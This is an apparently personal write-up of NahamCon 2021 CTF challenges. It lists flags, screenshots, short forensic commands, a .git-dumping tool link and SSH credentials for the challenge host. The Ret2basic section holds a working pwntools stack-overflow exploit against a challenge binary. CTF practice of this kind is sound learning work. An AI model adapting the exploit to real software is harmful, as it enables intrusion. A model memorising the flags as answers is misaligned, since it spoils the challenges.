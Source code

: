 # NahamCon CTF

#### Rules Source code
```flag{90bc54705794a62015369fd8e86e557b}```

### Nahamcon2021
```flag{e36bc5a67dd2fe5f33b62123f78fbcef}```

### Echo

![image](https://user-images.githubusercontent.com/1076452/111018313-e7124780-8396-11eb-8fa1-b99817861f79.png)

![image](https://user-images.githubusercontent.com/1076452/111018299-d6fa6800-8396-11eb-8e52-279d10ecd11a.png)

![image](https://user-images.githubusercontent.com/1076452/111018288-cba73c80-8396-11eb-8d5b-53e1e3203942.png)

```flag{1beadaf44586ea4aba2ea9a00c5b6d91}```

### Homeward Bound

![image](https://user-images.githubusercontent.com/1076452/111000058-25d8db00-8360-11eb-9b99-3a045d6fd1f2.png)

![image](https://user-images.githubusercontent.com/1076452/111000087-30937000-8360-11eb-998c-07f49f530a66.png)

```flag{26080a2216e95746ec3e932002b9baa4}```

### Shoelaces

strings shoelaces.jpg | grep flag

```flag{137288e960a3ae9b148e8a7db16a69b0}```

### Pollex

binwalk --dd='.*' pollex

![image](https://user-images.githubusercontent.com/1076452/111015405-6435c080-8387-11eb-8b51-a97ce86ac290.png)

```flag{65c34a1ec121a286600ddd48fe36bc00}```

### Car Keys

![image](https://user-images.githubusercontent.com/1076452/111019745-e7631080-839f-11eb-9708-59de62d02bc9.png)

```flag{6f980c0101c8aa361977cac06508a3de}```

### Eighth Circle

http://www.malbolge.doleczek.pl/

![image](https://user-images.githubusercontent.com/1076452/111020021-baaff880-83a1-11eb-8efd-e168fd0f6bdd.png)


### Ret2basic

```
#!/usr/bin/python
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./ret2basic')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./ret2basic', gdbscript=gs)
    if args.REMOTE:
        return remote('challenge.nahamcon.com', 30413)
    else:
        return process('./ret2basic')
r = start()
#========= exploit here ===================
win = 0x401215
#ret = 0x40133b
payload = "A" * 120
#payload += p64(ret)
payload += p64(win)
r.sendlineafter(": ",payload)

#========= interactive ====================
r.interactive()
```

![image](https://user-images.githubusercontent.com/1076452/111002592-810ccc80-8364-11eb-9f58-0ca4bb807ed0.png)

### esab64

cat esab64 | rev | base64 -d | rev

```flag{fb5211b498afe87b1bd0db601117e16e}```

### Resourceful

![image](https://user-images.githubusercontent.com/1076452/111007125-e1077100-836c-11eb-9a10-edb11904272d.png)

![image](https://user-images.githubusercontent.com/1076452/111007090-cf25ce00-836c-11eb-989e-3e9f1d579b6c.png)

![image](https://user-images.githubusercontent.com/1076452/111007110-da78f980-836c-11eb-9510-ce5ad11a8954.png)

```flag{7eecc051f5cb3a40cd6bda40de6eeb32}```

### Chicken wings 

https://lingojam.com/WingDing

```flag{e0791ce68f718188c0378b1c0a3bdc9e}```

### Andra

![image](https://user-images.githubusercontent.com/1076452/111007452-a9e58f80-836d-11eb-8fcb-2b86f03bf057.png)

![image](https://user-images.githubusercontent.com/1076452/111007468-b2d66100-836d-11eb-91b5-ac0fed2e04a5.png)

![image](https://user-images.githubusercontent.com/1076452/111007499-b833ab80-836d-11eb-892e-e2854621be02.png)

```flag{d9f72316dbe7ceab0db10bed1a738482}```

### Merch Store

Source code merch store

```flag{fafc10617631126361c693a2a3fce5a7} ```

## Mission

Source code

![image](https://user-images.githubusercontent.com/1076452/111015203-6ea38a80-8386-11eb-833a-647bffe6b2b6.png)

```flag{48e117a1464c3202714dc9a350533a59}```

### Bionic

![image](https://user-images.githubusercontent.com/1076452/111012004-27170180-837a-11eb-8aa6-8f0434726b1b.png)

### Meet The Team

https://github.com/internetwache/GitTools

https://constellations.page/.git/

git show

![image](https://user-images.githubusercontent.com/1076452/111013989-719b7c80-8380-11eb-9d8b-719daeb8cbe1.png)


### Gus

![image](https://user-images.githubusercontent.com/1076452/111011972-ffc03480-8379-11eb-8996-25197d69882c.png)


### Hercules

![image](https://user-images.githubusercontent.com/1076452/111013207-5da24b80-837d-11eb-94b6-fa2ce6b44d39.png)

### Lyra

![image](https://user-images.githubusercontent.com/1076452/111014284-c986b300-8381-11eb-86a2-847f0693ee78.png)

![image](https://user-images.githubusercontent.com/1076452/111014303-de634680-8381-11eb-85ee-3b94b44dac07.png)

![image](https://user-images.githubusercontent.com/1076452/111014312-ea4f0880-8381-11eb-9bfb-d8e0a0ae7060.png)

### Orion

https://twitter.com/OrionMorra/status/1363789936219082756

![image](https://user-images.githubusercontent.com/1076452/111014551-ea9bd380-8382-11eb-9418-a6b223bd1c13.png)

### Leo

![image](https://user-images.githubusercontent.com/1076452/111017557-1c1c9b00-8393-11eb-8485-7011fa58aea8.png)

![image](https://user-images.githubusercontent.com/1076452/111017573-2b034d80-8393-11eb-996e-b7169e37a59f.png)

``` flag{636db5f4f0e36908a4f1a4edc5b0676e}  A password for Leo is `constelleorising` ```



### Hydraulic

![image](https://user-images.githubusercontent.com/1076452/111021178-5133e800-83a9-11eb-8fb5-8724f47169f7.png)

```[ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky```

![image](https://user-images.githubusercontent.com/1076452/111021210-8b9d8500-83a9-11eb-8aac-24088f8267f2.png)

```flag{cadbbfd75d2547700221f8c2588e026e}```


